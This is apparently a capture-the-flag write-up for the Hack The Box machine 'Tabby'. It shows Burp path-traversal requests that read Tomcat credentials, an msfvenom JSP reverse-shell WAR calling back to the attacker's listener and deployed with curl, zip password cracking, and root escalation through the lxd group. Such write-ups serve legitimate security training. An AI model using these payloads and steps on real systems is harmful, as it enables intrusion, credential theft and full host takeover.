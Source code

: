 # Tabby
```
Difficulty: Easy
Operating System: Linux
Hints: Trues
```
## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 45:3c:34:14:35:56:23:95:d6:83:4e:26:de:c6:5b:d9 (RSA)
|   256 89:79:3a:9c:88:b0:5c:ce:4b:79:b1:02:23:4b:44:a6 (ECDSA)
|_  256 1e:e7:b9:55:dd:25:8f:72:56:e8:8e:65:d5:19:b0:8d (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Mega Hosting
|_http-server-header: Apache/2.4.41 (Ubuntu)
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
As we can see the machine is running ubuntu, so without further doing let's dig into port 80.
As we poke around on the site we can see that all the links are pointing to de index page except this one ```http://megahosting.htb/news.php?file=statement``` since the parameter looks a lot like it is doing a file inclusion, let's try to exploit this and try to leverage an LFI.  
We can open the request in burp and try different patterns:  
```
GET /news.php?file=../news.php HTTP/1.1
Host: megahosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
And we can see the code of the actual news.php file. Since the code is not executed, it means that we cannot turn the LFI into RCE.  
```
HTTP/1.1 200 OK
Date: Thu, 21 Apr 2022 07:35:18 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 123
Connection: close
Content-Type: text/html; charset=UTF-8

<?php
$file = $_GET['file'];
$fh = fopen("files/$file","r");
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```
As we can see the file is using ```fopen()```, if instead it used ```include()``` the code would have been executed instead than just being printed, and we would have had the chance to turn this LFI into RCE.  
In this case when we have include to exfiltrate php code we can use php filter function (e.g: ```php://filter/convert.base64-encode/resource=news.php```).  
Now let's try to enumerate files of tomcat, relying on [HackTricks for tomcat](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat), as we can see there, we can enumerate users by including the following file.  
```
GET /news.php?file=../../../../usr/share/tomcat9/etc/tomcat-users.xml HTTP/1.1
Host: megahosting.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
```
As we can see we get the list of users that can authenticate against tomcat as admin:  
```
[... SNIP ...]
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
[... SNIP ...]
```
Now that we have credentials for tomcat let's try to leverage this attack vector in order to gain an initial foothold.

## Foothold
As we open tomcat manager page we can see the following error message:  
```
403 Access Denied

You are not authorized to view this page.

By default the Manager is only accessible from a browser running on the same machine as Tomcat. If you wish to modify this restriction, you'll need to edit the Manager's context.xml file.
```
However, according to [HackTricks for tomcat](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat) we do not need to use the manager gui to upload a war, we can simply use a curl command.  
So, now, let's prepare our payload with msfvenom:  
```
root@kali Tabby ]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.17 LPORT=9001 -f war -o revshell.war                                                                                                                               
Payload size: 1091 bytes                                   
Final size of war file: 1091 bytes                         
Saved as: revshell.war
```
And use the following curl command to deploy the war file:  
```
[root@kali Tabby ]$ curl --upload-file revshell.war -u 'tomcat:$3cureP4s5w0rd123!' "http://10.10.10.194:8080/manager/text/deploy?path=/shell2"                                                                                               
OK - Deployed application at context path [/shell2]
```
Now we can set up a listener, and as we hit port 9001 we can gain a shell as user tomcat.  
```
root@kali:~/Documents/HTB/Boxes/Tabby# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.194] 48468
tomcat@tabby:~$ id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## User
Now that we have an initial foothold, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice a backup file that is pretty non-standard:  
```
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 ash ash 8716 Jun 16  2020 /var/www/html/files/16162020_backup.zip
[... SNIP ...]
```
Now, let's download the archive and see what do we have.  
As we try to open the archive, we can see that it is password-protected, so, let's try to use john to crack the password:  
```
[root@kali Tabby ]$ zip2john backup.zip > backup.hash   
[root@kali Tabby ]$ cat backup.hash                        
backup.zip:$pkzip$5*1*1*0*8*24*7db5*dd84cfff4c26e855919708e34b3a32adc4d5c1a0f2a24b1e59be93f3641b254fde4da84c*1*0*8*24*6a8b*32010e3d24c744ea56561bbf91c0d4e22f9a300fcf01562f6fcf5c986924e5a6f6138334*1*0*0*24*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*5935*f422c178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip$::backup.zip:var/www/html/news.php, var/www/html/favicon.ico, var/www/html/Readme.txt, var/www/html/logo.png, var/www/html/index.php:backup.zip                                          
[root@kali Tabby ]$ john --wordlist=/usr/share/wordlists/rockyou.txt backup.hash                                      
Using default input encoding: UTF-8                        
Loaded 1 password hash (PKZIP [32/64])                     
Will run 2 OpenMP threads                                  
Press 'q' or Ctrl-C to abort, almost any other key for status                                                         
admin@it         (backup.zip)                              
1g 0:00:00:01 DONE (2022-04-22 10:16) 0.8264g/s 8560Kp/s 8560Kc/s 8560KC/s adornadis..adj071007                       
Use the "--show" option to display all of the cracked passwords reliably                                              
Session completed.
```
And we found a password.  
If we extract the zip file we do not see anything interesting, so we can try to use the cracked password against 'ash' the only user available in this box:  
```
tomcat@tabby:/home$ ls
ash
tomcat@tabby:/home$ su - ash
Password:
ash@tabby:~/
```
And we successfully gain access.

## Root
Once we log in, following our standard approach, we can run linPEAS looking for possible privilege escalation vectors.    
After we run linPEAS, we can notice that user ash is part of lxd group:
```
═════════════════════════════════════════╣ Basic information ╠═════════════════════════════════════════
                                         ╚═══════════════════╝
OS: Linux version 5.4.0-31-generic (buildd@lgw01-amd64-059) (gcc version 9.3.0 (Ubuntu 9.3.0-10ubuntu2)) #35-Ubuntu SMP Thu May 7 20:20:34 UTC 2020
User & Groups: uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
Hostname: tabby
```
As we did for [shocker](Shocker.md) we know that we can leverage this group to create a linux container and mount the rootfs. Ounce the machine is booted and the rootfs is mounted we will be able to write any file on the box and even drop an ssh key for root.  
LXD is Ubuntu’s system container manager. This is similar to virtual machines, but using lightweight linux containers.  
The lxd group should be considered harmful in the same way the docker group is.  
Any member of the lxd group can immediately escalate their privileges to root on the host operating system.
To Exploit this vulnerability, first of all we need to run the following commands on our local machine:
```
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder/
bash build-alpine
```
After we run this command we can transfer the ```alpine-v3.15-x86_64-20220422_1026.tar.gz``` image to the remote server, and run the following command.
```
lxc image import ./alpine-v3.15-x86_64-20220422_1026.tar.gz --alias alpine
```
We do not get any ```error: mkdir /.config: permission denied``` as did happened for [shocker](Shocker.md), hence we can proceed with the exploit.  
```
lxc image import ./alpine-v3.15-x86_64-20220422_1026.tar.gz --alias alpine
lxc image list # verify that the image is loaded
lxc init alpine alpine-container -c security.privileged=true
lxc config device add alpine-container alpine-device disk source=/ path=/mnt/root recursive=true
```
finally, we can start the container and run a bash shell:
```
lxc start alpine-container
lxc exec alpine-container /bin/sh
```
However, we mounted the host “/” directory to the directory “/mnt/root” in the alpine container.  
So if we visit “/mnt/root”, we can see the content of the “/” directory of the host OS.
```
ash@tabby:/dev/shm$ lxc exec alpine-container /bin/sh                                                            
~ # id                                                     
uid=0(root) gid=0(root)   
~ # cat /mnt/root/root/root.txt
309d17dcbfbe5ee7dba81f0079b10982
```
